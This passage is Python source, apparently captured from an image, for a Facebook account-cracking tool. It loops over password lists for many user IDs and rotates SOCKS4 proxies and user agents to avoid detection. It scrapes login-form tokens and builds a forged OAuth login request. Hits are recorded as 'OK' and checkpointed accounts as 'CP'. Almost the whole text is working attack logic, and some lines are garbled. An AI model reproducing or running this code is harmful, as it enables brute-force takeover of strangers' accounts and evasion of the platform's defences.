              print(f" {H}[{H}×{H}] Select Between y/t");__chigoue__().chi(id) 
         self.cnt = input('\033[1;92m[+] Enter File Name :\033[1;92m ') 
         self.id = open(self.cnt).read().splitlines() 
         os.system('clear') 
         ___two___ = ('y') 
         if ___two___ in ('yes', 'Yes', 'Y', 'y'): 
 #            self.__ok__() 
             self.__pler__() 
         else: 
             print(' [!] Choose Correct One') 
             self.chi(id) 
  
 # PROSES CRACK METODE 3 in 1 
     def __metode__(self, cebok, user, pasw): 
         global ok,cp,loop 
         animasi = random.choice(["\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]"]) 
         sys.stdout.write(f"\r {N}{animasi} {N}{loop}{N}/{M}{len(self.id)} {N}[{H}OK:{len(ok)}{N}][{K}CP:{len(cp)}{N}] [{H}{'{:.1%}'.format(loop/float(len(self.id)))}{N}]") 
         sys.stdout.flush()    
         try:os.mkdir('results') 
         except:pass 
         try: 
             for pw in pasw: 
                 pw = pw.lower() 
                 session=requests.Session() 
                 nip=random.choice(prox) 
                 proxs= {'http': 'socks4://'+nip} 
                 ua = random.choice(ugen) 
                 ua2 = random.choice(ugen2) 
                 session.headers.update({'Host': cebok,'cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}) 
                 p = session.get('https://'+cebok+'/login/device-based/password/?uid='+user+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr') 
                 dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":user,"next":"https://"+cebok+"/v2.3/dialog/oauth?app_id=124024574287414&cbt=1651658200978&e2e=%7B%22init%22%3A1651658200978%7D&sso=chrome_custom_tab&scope=email&state=%7B%220_auth_logger_id%22%3A%2268f15bae-23f8-463c-8660-5cf1226d97f6%22%2C%227_challenge%22%3A%22dahj28hqtietmhrgprpp%22%2C%223_method%22%3A%22custom_tab%22%7D&redirect_uri=fbconnect%3A%2F%2Fcct.com.instathunder.app&response_type=token%2Csigned_request%2Cgraph_domain%2Cgranted_scopes&return_scopes=true&ret=login&fbapp_pres=0&logger_id=68f15bae-23f8-463c-8660-5cf1226d97f6&tp=unspecified","flow":"login_no_pin","pass":pw,} 
                 koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ]) 
                 koki+=' m_pixel_ratio=2.625; wd=412x756' 